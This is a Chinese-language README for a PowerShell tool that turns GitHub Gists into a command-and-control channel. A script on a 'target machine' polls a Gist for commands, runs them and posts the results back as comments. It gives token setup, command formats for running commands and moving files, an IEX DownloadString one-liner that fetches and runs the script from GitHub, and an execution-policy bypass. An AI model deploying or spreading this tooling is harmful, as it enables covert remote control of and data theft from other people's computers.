 ###Powershell Github Shell
	Demo Result Gist:https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e

####使用方法：<br>
##### 1，创建github账户，访问https://github.com/settings/tokens/new  选中 gist   Create gists ，创建访问Gists的token.<br>
##### 2, 访问 https://gist.github.com/ ，创建一个Gist，属性最好为private,只有自己能访问查看结果，名称为cmd.例：<br>
###### 为了展示，我设置了public https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e <br>
	Command:"time /T"
	ReadFile:"c:/windows/temp/1.txt"
	WriteFile:"http://www.github.com/raw/1.zip c:/wnidows/temp/2.txt"
	Powershell:"Get-Process | Out-String"
	Command:"whoami"
其中<br>
###### Command后是想要执行的cmd命令，功能已测试OK<br>
###### ReadFile是上传目标机器上的文件到Github，暂未实现<br>
###### WriteFile下载文件到目标机器，暂未实现<br>
###### Powershell后是可以执行的Powershell指令，暂未实现<br>

##### 3, 修改Powershell脚本的头部配置信息
$gistsUser="gitusername";		# github的用户名<br>
$gistsApiToken="gittoken";		# 上步中得到的token ，例eed4239e439034a92fc4cbe0fbd2ca906999a9f1<br>
$checkTime=60;				# 每次获取命令结果需要等待的时间，秒为单位<br>

##### 4, 使powershell在目标机器上执行
##### Powershell执行方法<br>
一句话远程加载(推荐) <br>
```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/zlocal/Powershell-Github-Shell/master/PGShell.ps1')
```
一句话本地加载<br>
```
powershell IEX ([System.IO.File]::readAllText('PowershellGitShell.ps1'));	//powershell
```
一句话文件执行<br>
```
powershell -executionPolicy bypass -File "c:/test/PowershellGitShell.ps1"	//powershell
```
##### 5，可以修改cmd gist的内容，在$checkTime秒后刷新网页，结果会在评论中。结果需要使用URL DECODE解码。
